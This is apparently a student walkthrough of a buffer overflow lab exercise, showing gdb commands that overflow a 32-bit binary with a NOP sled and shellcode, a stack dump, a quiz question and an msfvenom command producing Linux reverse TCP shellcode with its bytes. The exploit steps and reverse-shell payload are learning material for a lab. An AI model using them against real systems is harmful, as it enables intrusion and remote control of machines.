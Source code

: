 #### Exploit with Shellcode

Exploit with Shellcode

```shell-session
(gdb) run $(python -c 'print "\x55" * (1040 - 124 - 95 - 4) + "\x90" * 124 + "\xda\xca\xba\xe4...<SNIP>...\xad\xec\xa0\x04\x5a\x22\xa2" + "\x66" * 4')

The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/student/bow/bow32 $(python -c 'print "\x55" * (1040 - 124 - 95 - 4) + "\x90" * 124 + "\xda\xca\xba\xe4...<SNIP>...\xad\xec\xa0\x04\x5a\x22\xa2" + "\x66" * 4')

Breakpoint 1, 0x56555551 in bowfunc ()
```

Next, we check if the first bytes of our shellcode match the bytes after the NOPS.

#### The Stack

The Stack

```shell-session
(gdb) (gdb) x/2000xb $esp+550

<SNIP>
0xffffd64c:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd654:	0x90	0x90	0x90	0x90	0x90	0x90	0x90	0x90
0xffffd65c:	0x90	0x90	0xda	0xca	0xba	0xe4	0x11	0xd4
						 # |----> Shellcode begins
<SNIP>
```

Q: Submit the size of the stack space after overwriting the EIP as the answer. (Format: 0x00000)

**Hint: With "help info" in GDB, further hints can help to view the processes and their information.**

A: 

**Solution**

Connect to the machine using `vpn` and `ssh` after the run the binary in `gdb` using the command `gdb -q bow` and after that set break point in bow function using the command `break bowfunc` we know the `bowfunc` is in the program if not use `disas main` command to disassemble the main function and see yourself the `bowfunc` is there. now our break point is set so we are good to go to launch our `shellcode` but first we have to generate our shell code using the following command syntax
```shell
$ msfvenom -p linux/x86/shell_reverse_tcp lhost=<LHOST IP> lport=<LPORT> --format c --arch x86 --platform linux --bad-chars "<chars>" --out <filename>
```
This command syntax generate a file with our specified name and that have the following content in it your would be different
```
unsigned char buf[] =   
"\xbb\xcc\x54\x8d\xae\xda\xd2\xd9\x74\x24\xf4\x5a\x29\xc9\xb1"  
"\x12\x31\x5a\x12\x83\xc2\x04\x03\x96\x5a\x6f\x5b\x17\xb8\x98"  
"\x47\x04\x7d\x34\xe2\xa8\x08\x5b\x42\xca\xc7\x1c\x30\x4b\x68"  
"\x23\xfa\xeb\xc1\x25\xfd\x83\xdb\xdf\xf2\xea\xb4\xdd\x0c\x1d"  
"\x19\x6b\xed\xad\xc7\x3b\xbf\x9e\xb4\xbf\xb6\xc1\x76\x3f\x9a"  
"\x69\xe7\x6f\x68\x01\x9f\x40\xa1\xb3\x36\x16\x5e\x61\x9a\xa1"  
"\x40\x35\x17\x7f\x02";
```
So we have to remove the fist line and newlines and make him a single line shell code after editing they look like this
```
```